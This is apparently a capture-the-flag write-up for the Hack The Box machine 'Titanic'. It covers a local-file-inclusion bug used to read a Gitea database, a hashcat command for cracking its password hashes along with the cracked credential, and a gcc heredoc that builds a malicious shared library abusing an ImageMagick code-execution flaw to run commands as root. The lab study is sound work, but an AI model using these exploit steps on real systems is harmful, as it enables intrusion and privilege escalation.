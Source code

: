 # Titanic \[Linux Easy]

## Report

HTTP website posts a form and downloads a 'ticket' from local, vulnerable to LFI, find an exposed gitea directory with access to source mentioning path to find creds. Leverage this to find creds for user 'developer'

Looking around, see a script which uses binary 'ImageMagick' as sudo which uses an outdated version that is vulnerable to Arbritary Code Execution

{% embed url="https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8" %}

## Cheatsheet

```
#Final path for LFI, after reading documentation
/home/developer/gitea/data/gitea/gitea.db

hashcat64.exe -m 10900 hash.txt rockyou.txt -d 1

gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
attribute((constructor)) void init(){
system("sudo cat /root/root.txt");
exit(0);
}
EOF

magick /dev/null dev/null
```

## Proof

endpoint `/book` post form data
\
`/download` variable ticket modify this yea

v2 was forbidden                                   (Was there any point?)

`/home/developer/gitea/data:/data`  (From gitea dockerfile)

`data/gitea.db`                                       (From Google, db file path)

volumes:
\
`- ./gitea:/data`                                         (From gitea documentation, SQL Database setup)

Our dockerfile mentions one path and the sql dockerfile appends to it further

Hence final path: `/home/developer/gitea/data/gitea/gitea.db`



Convert gitea PBKDF2-HMAC-SHA256 password hashes to hashcat readable form

`developer:25282528`

<figure><img src="../../.gitbook/assets/image (80).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (81).png" alt=""><figcaption></figcaption></figure>

<div align="left"><figure><img src="../../.gitbook/assets/image (82).png" alt="" width="563"><figcaption></figcaption></figure></div>

<figure><img src="../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## In-Game Pitch Notes

Once you clock an LFI, you have to be thinking about exposing creds come on

Privesc Methodology

linpease
\
sudo -l
\
suid
\
crontab
\
no sus binaries with useless perms
\
no path exploit

opt was written in red lmao (readable by user but not world readable)

The convert command is deprecated in IMv7, use "magick" instead of "convert" or "magick convert"
